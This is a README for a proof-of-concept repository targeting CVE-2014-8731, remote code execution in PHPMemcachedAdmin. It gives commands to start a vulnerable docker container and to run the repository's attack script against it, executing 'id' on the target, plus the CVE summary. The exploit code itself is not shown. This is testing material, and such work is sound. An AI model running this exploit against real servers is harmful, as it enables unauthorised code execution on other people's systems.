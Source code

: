 # CVE-2014-8731-PoC - PHPMemcachedAdmin Remote Code Execution
A proof of concept tool to test your own system if they are vulnerable to CVE-2014-8731

## Run test

Start victim server:
```bash
docker run -p8081:80 --rm --name phpma -it alphayax/phpmemcachedadmin
```

Attack victim with PoC:
```bash
git clone https://github.com/sbani/CVE-2014-8731-PoC.git
cd CVE-2014-8731-PoC
python attack.py http://localhost:8081 id
```

## CVE details
> PHPMemcachedAdmin 1.2.2 and earlier allows remote attackers to execute arbitrary PHP code via vectors related "serialized data and the last part of the concatenated filename," which creates a file in webroot.

References:
- https://nvd.nist.gov/vuln/detail/CVE-2014-8731
